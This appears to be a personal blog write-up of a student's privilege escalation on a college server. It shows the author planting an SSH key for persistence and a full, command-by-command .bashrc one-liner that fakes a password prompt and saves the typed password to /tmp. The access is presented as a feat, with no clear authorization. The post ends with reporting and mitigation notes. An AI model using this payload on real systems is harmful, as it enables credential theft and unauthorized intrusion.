







## Prologue
While exploring devices on my college network, I managed to gain Remote Desktop Access to a server for one of our institute's websites. The method I used to obtain access to the interface is out of the scope of this blog.<br />
<br />
Upon gaining access, I found that the server was running **Ubuntu**. The terminal displayed **user** as the current user.<br />
<br />
I added my public key to */home/user/.ssh/authorized_keys* and checked the SSH connection.<br />
<br />
With SSH access confirmed, it was time to escalate our privileges to the ***root*** user.
## Privilege Escalation
Initially, I explored various SUIDs, SGIDs, Cronjob Files, the Shadow File, shared libraries, and other system components to find potential vulnerabilities. <br />
After finding no useful exploits, I downloaded and executed [linPEAS](https://github.com/peass-ng/PEASS-ng) to search for additional attack surfaces, but it was not successful.<br />
## Social Engineering
> "I'M GOOD AT READING PEOPLE. MY SECRET. I LOOK FOR THE WORST IN THEM." - Mr.Robot
<!-- -->
This line from Mr. Robot inspired me after my initial methods for privilege escalation failed.<br />
I devised a strategy to obtain the password for **user** using a social engineering approach.<br />
I created a single-line bash script to be appended to */home/user/.bashrc*.<br />
```bash
echo -n 'password for user: '; read -s password; echo -n $password | base64 >/tmp/tmp.txt; grep -v 'random_signature' /home/user/.bashrc >/tmp/tmp; mv /tmp/tmp /home/user/.bashrc; chmod 644 ~/.bashrc; echo '';
```
Let's Understand this command-by-command
* Prints **password for user:** on the screen, tricking the user into thinking it’s a prompt for their password.
```bash
echo -n 'password for user: '
```
* Inputs the password in silent mode, so it doesn’t appear on the screen.
```bash
read -s password
```
* Encodes the password in **base64** and saves it to */tmp/tmp.txt*.
```bash
echo -n $password | base64 >/tmp/tmp.txt
```
* Removes lines containing **random_signature** from */home/user/.bashrc*, ensuring it doesn’t affect the file’s functionality.
```bash
grep -v 'random_signature' /home/user/.bashrc >/tmp/tmp
```
* Replaces the original **.bashrc** file with the modified version.
```bash
mv /tmp/tmp /home/user/.bashrc
```
* Restores the original file permissions for **.bashrc**
```bash
chmod 644 ~/.bashrc
```
After appending this line to */home/user/.bashrc*, every time a new terminal was opened, it would prompt the **user** for their password.<br />
<br />
Once the user entered their password, the line would be removed from **.bashrc**, restoring the file to its original state. I could then SSH into the machine and retrieve the base64 encoded password from */tmp/tmp.txt*.<br />
Although there were concerns about potential failures, such as entering the wrong password or pressing **CTRL+C**, the method worked successfully after a few days.
## Obtaining Password
A few days later, I logged in as **user** via SSH and found that it wasn’t prompting for a password. I checked */tmp/tmp.txt* and found the base64 encoded password.<br />
<br />
After Decoding it, I obtained the password.<br />
<br />
Finally, I verified the success of my social engineering method by checking for root access.<br />
<br />
There We have the **root** user!
## Reporting
As a responsible and ethical individual, I reported the findings to the concerned authorities. They have since addressed and fixed the issues discussed.
## Mitigations
**Social Engineering** remains one of the most dangerous methods of compromising security because it exploits human psychology rather than technical vulnerabilities. The weakest link in any security system is often the human element. Even the most secure systems can be breached if someone is tricked into revealing sensitive information or executing malicious commands.<br />
To mitigate the risk of social engineering attacks:
* **Security Awareness Training**: Regularly train employees to recognize and respond to social engineering tactics.
* **Verification Procedures**: Implement strict verification processes for sensitive actions or information requests.
* **Multi-Factor Authentication (MFA)**: Use MFA to add an extra layer of security beyond just passwords.
* **Monitor and Audit**: Regularly monitor and audit access logs for suspicious activity.
<!-- -->
By addressing these areas, you can significantly reduce the risk posed by social engineering and other similar attacks.